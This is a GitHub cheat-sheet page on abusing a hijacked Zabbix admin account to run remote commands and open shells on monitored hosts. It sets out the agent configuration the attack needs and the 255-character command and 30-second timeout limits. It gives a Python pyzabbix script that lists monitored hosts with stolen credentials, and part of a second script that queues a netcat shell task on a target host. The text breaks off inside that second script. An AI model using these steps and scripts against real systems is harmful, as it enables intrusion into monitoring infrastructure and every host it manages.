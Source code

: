 # Somehow you've got access to the zabbix admin account or created your own (taking advantage of this [guide](https://github.com/HD421/Monitoring-Systems-Cheat-Sheet/blob/master/Zabbix_session_hijacking.md)). Time for some RCE on the monitored hosts!

In Zabbix we got ability to run remote commands. This will work in the next state of the agent configuration file:
1. The value of the ServerActive parameter is the same as the value of the Server parameter.
2. The Hostname parameter matches the name specified for the host in the Zabbix server's web interface.
3. EnableRemoteCommands = 1 - Enables the launch of commands that the server sends to the agent.
4. Timeout = 30 – Specifies how long we wait for agent. Must be between 1 and 30. (Because of this option we can't get persistent shell)

It is also important to remember that the command length is limited to 255 characters.
As a result, a successful scenario is the addition of a task to create a shell in Zabbix which will be accessible for 30 seconds(in the best scenario) and during his lifetime add an independent persistent shell.

If you are too lazy to login to the web interface, you can use this script and get information about the agents that Zabbix monitors.
```python
from pyzabbix import ZabbixAPI
api_address=raw_input("enter correct URL to api_jsonrpc.php, like http://192.168.56.102/zabbix/api_jsonrpc.php"": \n")
zbx_sessionid= raw_input("enter zbx_sessionid: \n")
user= raw_input("enter username: \n")
password= raw_input("enter password: \n")
zapi = ZabbixAPI(api_address)
zapi.login(user, password)
print("Connected to Zabbix API Version %s" % zapi.api_version())
for h in zapi.host.get(output="extend"):
    hostid=h['hostid']
    host=h['host']
    print ("found host: ",host,"hostid: ",hostid)  
```
Result:
<a href="url"><img src="https://image.prntscr.com/image/st11XKYfSneLiSUS5D_Wpg.png" align="justify"></a>

## Meet the Unix!
<a href="url"><img src="http://2.bp.blogspot.com/-8BLUZTtUu0M/T_TFQ3oTl4I/AAAAAAAAA4Q/bI19ps683ow/s1600/heavy_house_sm.jpg" align="justify" width="800"></a>

And this homie will help us put the task to launch the shell using netcat:

```python
from pyzabbix import ZabbixAPI, ZabbixAPIException
import sys
api_address=raw_input("enter correct URL to api_jsonrpc.php, like http://192.168.56.102/zabbix/api_jsonrpc.php"": \n")
user= raw_input("enter username: \n")
password= raw_input("enter password: \n")
hostname=raw_input("enter hostname: \n")
# hostid=raw_input("enter hostid: \n")
zapi = ZabbixAPI(api_address)
# Login to the Zabbix API
zapi.login(user, password)
host_name = hostname
hosts = zapi.host.get(filter={"host": host_name}, selectInterfaces=["interfaceid"])
if hosts:
    host_id = hosts[0]["hostid"]
    print("Found host id {0}".format(host_id))
    try:
```